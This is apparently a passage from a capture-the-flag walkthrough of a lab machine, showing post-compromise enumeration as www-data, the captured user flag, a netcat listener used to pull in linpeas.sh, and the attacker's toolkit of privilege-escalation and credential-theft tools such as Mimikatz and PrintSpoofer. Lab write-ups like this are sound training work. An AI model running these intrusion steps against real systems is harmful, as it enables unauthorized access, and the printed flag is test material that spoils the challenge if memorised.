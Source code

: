![Victim: www-data](https://img.shields.io/badge/Victim-www%2D-data-64b5f6?logo=linux&logoColor=white)

`id`:
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

`uname -a`:
```
Linux luz 5.15.0-57-generic #63-Ubuntu SMP Thu Nov 24 13:43:17 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

`lsb_release -a`:
```
Distributor ID: Ubuntu
Description:    Ubuntu 22.04.1 LTS
Release:        22.04
Codename:       jammy
```

`ls -alps /var/www/html`:
```
total 16
4 drwxr-xr-x 3 www-data www-data 4096 Jan 11  2023 ./
4 drwxr-xr-x 3 root     root     4096 Jan 11  2023 ../
4 drwxr-xr-x 7 www-data www-data 4096 Jan 11  2023 fos/
4 -rw------- 1 www-data www-data   15 Jan 11  2023 user.txt ←
```

`cat /var/www/html/user.txt`:
```
HMVn03145n4nk4 ←
```

`nc -lvnp 6666 > ./linpeas.sh`:
```
listening on [any] 6666 ... ←
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`cd /home/kali/tools`

`ls -alps`:
```     
total 10060
   4 drwxrwxr-x 2 kali kali    4096 Oct  4 10:08 ./
   4 drwxr-xr-x 8 kali kali    4096 Sep 25 06:08 ../
  56 -rw-r--r-- 1 root root   57344 Apr 11  2023 GodPotato-NET2.exe
  56 -rw-r--r-- 1 root root   57344 Apr 11  2023 GodPotato-NET35.exe
  56 -rw-r--r-- 1 root root   57344 Apr 11  2023 GodPotato-NET4.exe
2156 -rw-r--r-- 1 root root 2204117 Sep 10 10:00 Invoke-Mimikatz.ps1
 340 -rw-rw-r-- 1 kali kali  347648 Sep  9 06:17 JuicyPotato.exe
 844 -rwxr-xr-x 1 kali kali  860337 Sep 20 04:02 linpeas.sh ←
  48 -rw-rw-r-- 1 kali kali   48875 Sep 19 12:45 lse.sh
  60 -rw-r--r-- 1 root root   59392 Sep  9 13:09 nc.exe
  24 -rw-r--r-- 1 root root   22016 Dec  7  2021 PrintSpoofer32.exe
  28 -rw-r--r-- 1 root root   27136 Dec  7  2021 PrintSpoofer64.exe
2872 -rw-rw-r-- 1 kali kali 2940928 Jan 17  2023 pspy32
3032 -rwxrwxr-x 1 kali kali 3104768 Jan 17  2023 pspy64
  52 -rw-r--r-- 1 root root   51712 May 20  2023 RunasCs.exe
  60 -rw-r--r-- 1 root root   61440 May 17  2023 RunasCs_net2.exe
 368 -rw-rw-r-- 1 kali kali  375176 Sep 23 09:43 socat
```
